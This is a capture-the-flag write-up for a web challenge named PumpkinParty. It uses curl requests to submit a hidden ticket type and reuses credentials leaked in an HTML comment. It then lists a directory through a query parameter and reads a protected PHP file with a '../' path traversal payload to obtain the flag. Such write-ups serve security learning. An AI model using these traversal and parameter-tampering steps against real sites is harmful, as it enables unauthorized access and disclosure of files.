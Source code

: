 ## PumpkinParty
When we launch the container, we get an ip for the host. Let's call it `$HOSTIP`.

With `nmap $HOSTIP` we find out the host only listens on port 80.

Open that IP in a Web browser. It presents a page with a link at the bottom.
The link leads to a page for buying tickets, `/tickets.php`. It contains a form
with form fields for the number of tickets for each ticket type, e.g.
`normal_count` or `vip_count`.

The page's source code contains a comment which says that there's a fourth
ticket type 'merchant' which is not implemented yet. Since this type is not
included in the form we need to use `curl` to send a request with this ticket
type.

We used this command to submit the form with one merchant ticket:

    curl -i -H 'application/x-www-form-urlencoded' \
      -F 'merchant_count=1' http://$HOSTIP/tickets.php?action=submit

The response is HTTP 302 that redirects to `?action=confirm` and has a
`Set-Cookie` header with the key `PHPSESSID`. We save it for later use.

    PHPSESSID=b3ec83b80e0774419f9269dce56b45ce

Following 'confirm' with

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=confirm

returns a page with a table where the order is summarized. There's a button that sends a request to `?action=buy`.

Let's send a request:

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=buy

We get a page with an HTML comment saying:

    <!-- @WEBDEVS user/pass merch_test2/BUYMYSHORTS !!!REMOVE IN PROD!!! -->

The question is: Where is this merchant page?

We guess and send

    curl -u merch_test2:BUYMYSHORTS -vi http://$HOSTIP/merchants/

The returned page contains JavaScript that iterates over the response of
`/merchants/processor.php?a=registered` to display merchant information.
For each value that is returned at this path another GET request to
`/merchants/processor.php?b=<MERCHANT>` is sent to get information about each
merchant.

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=registered

    ["Bobs Bar","Himalaya Hats","Ingrids Imbiss"]

What happens if we replace the value `registered` with something else, say, a
dot for the current directory?

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=.

It yields an array of filenames:

    [".htaccess",".htpasswd","327a6c4304ad5938eaf0efb6cc3e53dc.php","index.php","processor.php","registered"]

Apparently, `registered` is a directory and there's a suspicious file
`327a6c4304ad5938eaf0efb6cc3e53dc.php`, which is in the same directory as
`processor.php`.

However, accessing `/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php` returns a HTTP 403 (forbidden).

We need to look into this file.

Since the JavaScript code sends requests to
`/merchants/processor.php?b=<MERCHANT>` and the value of this parameter seems
to be file, we could get the suspicious file this way.

`processor.php` outputs files given in parameter `b` which are in the directory
`registered`. Since `327a6c4304ad5938eaf0efb6cc3e53dc.php` is in the directory
above `registered` we need to send

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?b=../327a6c4304ad5938eaf0efb6cc3e53dc.php

The PHP file asks for a GET parameter `admin` that must have the value `sure`. So let's do the request

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php?admin=sure

The returned HTML page contains the flag: `DORF18{Y0UR_5H3LL_15_1N_4N0TH3R_C45TL3}`.
